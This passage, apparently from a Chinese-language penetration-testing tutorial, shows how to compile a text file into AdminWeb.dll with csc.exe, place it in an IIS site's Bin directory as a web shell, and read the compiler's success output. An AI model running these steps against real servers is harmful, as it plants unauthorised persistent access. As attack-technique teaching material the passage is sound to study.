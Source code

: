 ![](../img/net/bb580864eb7c54c99ce2ed96d9041fe0.png)

其中 /t:library
表示生成dll，/r参数表示引用DLL，-out参数表示生成dll的位置，这里很显然得放到Bin目录下，完整命令如下

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\
csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\AdminWeb.dll C:\inetpub\wwwroot\AdminWeb.txt
```




看到下列内容的输出，表示命令执行成功！

```cmd
C:\Windows\System32> C:\Windows\Microsoft.NET\Framework\v4.0.30319\
csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\AdminWeb.dll C:\inetpub\wwwroot\AdminWeb.txt Microsoft (R) Visual C# Compiler version 4.7.2053.0 for C# 5 Copyright (C) Microsoft Corporation. All rights reserved. This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```




WebShell执行结果如图
